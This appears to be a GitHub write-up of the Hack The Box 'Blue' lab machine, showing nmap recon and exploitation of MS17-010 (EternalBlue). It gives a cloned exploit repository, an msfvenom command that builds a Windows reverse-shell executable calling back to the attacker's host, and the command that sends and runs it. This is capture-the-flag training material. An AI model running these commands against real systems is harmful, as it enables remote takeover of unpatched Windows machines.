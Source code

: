 # Blue Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA blue 10.10.10.40``

### and

``nmap --script vuln 10.10.10.40``

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/219156029-61007f6c-1d63-4c56-80c3-b0b229a7d281.png)

# ${{\color{purple}Exploitation}}\ $

### I used this script to run ms-17-010 :
### The most important thing here is not the exploitation but to make a python2 script work with impacket

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

``git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143``

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f exe -o ms17-010.exe``

### Change the username to make it work in the exploit 

![image](https://user-images.githubusercontent.com/123066149/219158101-530f4d9d-5ed4-409d-bed3-a0a82bc165cf.png)

``python2.7 send_and_execute.py 10.10.10.40 ms17-010.exe``

![image](https://user-images.githubusercontent.com/123066149/219158641-ace89ab3-225a-4e79-ba19-8d81347e8ca5.png)

![image](https://user-images.githubusercontent.com/123066149/219158807-4134bd30-2ed5-4c02-87f4-583882b6c2e3.png)

# ${{\color{purple}Privilege Escalation}}\ $

### No priv esc because the service runs with system rights

# ${{\color{purple}Point of Improvement}}\ $

* If I have problems with a python 2.7 script and impacket I have to do this :

``sudo python2.7 get-pip.py``

``pip2.7 install --upgrade setuptools``

``python2.7 -m pip install impacket``

![image](https://user-images.githubusercontent.com/123066149/219160110-72dbd5b9-e8ee-4af8-8199-40a5f749e80d.png)

